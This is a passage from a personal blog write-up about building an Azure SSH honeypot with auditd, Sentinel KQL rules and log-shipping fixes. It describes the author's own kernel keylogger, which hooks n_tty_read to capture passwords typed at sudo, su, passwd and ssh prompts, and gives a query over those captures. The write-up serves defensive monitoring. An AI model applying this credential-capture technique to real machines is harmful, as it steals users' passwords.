appears in syscall arguments, so auditd cannot observe it;
rk-veil hooks n_tty_read to capture what was typed at the
prompt. Detection logic: comm identifies the prompting binary,
span_ms of 0 shows a single-batch no-echo read rather than typed input.
RkVeil
| where comm in ("sudo", "su", "passwd", "ssh")
| where span_ms == 0 // entering in passwords would have a span of 0
| where auid !in (1000, 4294967295) // not admin stuffMy Workspace
After setting up these rules, I had some fun fixing up a workbook while collecting and looking through failed SSH incident logs.



Six Silent Failures
The big problems I faced with this project were the silent ones, as I didn't even know whether they existed in the first place. Here were the 6 main ones:
1. -p wa excluded reads
My Rule 2 didn't return anything. Turns out the audit ruleset
/etc/audit/rules.d/honeypot.rules watched /etc/shadow for
writes and attribute changes but no reads. So, I fixed this by setting it as
-p rwa though I had to revert /etc/passwd to -p wa
as read auditing on it was way too noisy (cron hit it every 5 minutes).
2. Kernel auditing disabled itself
After restarting the VM, I realised I wasn't receiving any alerts. Running
systemctl status auditd showed that everything was fine, but looking at
auditctl -s showed that it wasn't even enabled, even while AMA kept
heartbeating. Because of this, 3 out of 4 rules weren't collecting for around 3 hours.
This was patched by persisting -e 1 as the last line of the rules file.
3. Wrong field extraction
This was my first time creating KQL rules so I made a few beginner mistakes.
take_anyif was selecting from non-SYSCALL records because I forgot to add a
has "type=SYSCALL" check and this led to weird parsing where a rule would
fire falsely and the same query would return different Uid/Euid values on different runs.
Adding the check fixed everything.
4. rsyslog/AMA startup
After the same reboot on number 2, both rsyslog and Azure Monitoring
Agent (AMA) started up at the same time. rsyslog tried to connect to
mdsd before AMA set it up and gave up. This meant no logs were being fed to
AMA but I fixed this quickly by setting rsyslog to start after AMA with
After=azuremonitoragent.service.
5. imfile stuck after truncation
rk-veil writes to a file, but this can't ship to Sentinel automatically
so I used imfile to append from the keylogger file,
/var/log/rk-veil.json, to syslog. But imfile persists a byte
offset per file. Truncating the keylogger log file while testing left the offset at
around 10000 bytes while the file's actual length was 0. imfile waited for
the file's length to grow past 10000 to write which meant that nothing was getting
written. I was able to fix this by enabling reopenOnTruncate and polling
mode.
6. UsePAM no made everyone anonymous
I forgot to add UsePAM yes to the trap sshd config.
pam_loginuid never ran and every honeypot session had
auid=4294967295 instead of the actual auid (1003). Thankfully I fixed this a
day before the attack.
What This Doesn't Do
- Egress is denied, so I observe download attempts instead of actual payload behaviour. Cowrie would have captured the sample but I captured the execution context around it. Controlled detonation with a quarantine proxy would be an interesting next phase.
rk-veilonly sees interactive sessions. Automated attacks that pipe commands over SSH without aptyare non-interactive so I couldn't see them with it (auditdstill worked though). It ended up being a bit of a waste but was fun to work on and it'll be the main piece of evidence when a human attacker or advanced interactive bot shows up.- Single VM, so I'm the analyst, the admin, and the only source of test activity.
It's why every rule contains an
auidexclusion for my own account (1000), but every exclusion is a gap an attacker could hide in.
Looking Back
This was a really fun project and gave me good insight into real-world forensics. Tracing the attacker's movements and figuring out the meaning and motive of each command was an enjoyable process. Setting up everything also taught me a lot about working with the Microsoft security stack and learning more about spinning up Azure cloud resources.
I had a small gripe about using Sentinel and Defender though. While I was working on this project, Sentinel was undergoing a merge with Defender. This led to a bunch of issues where a page I needed wouldn't be available in Sentinel and opening it in Defender would sometimes not work. It was a bit frustrating but the end result still ended up as something really satisfying.
There were lots of things I would've changed as well. Most of the six silent failures
could have been dealt with if I properly built a coverage query first instead of trusting
health checks as they only told me whether a service was running and not whether
they were working. I also should have used a 2 VM system so I wouldn't need an
auid exclusion. I'll probably add some more volume-based rules in the future
too.
I'll shut down the honeypot in a couple weeks due to trial restrictions. For the rest of the time, I plan on going through more attacks to get some malware samples and once I do, I'll try to have a look at proper malware analysis on these samples using any.run and Ghidra.
Anyway, thanks for reading my first writeup!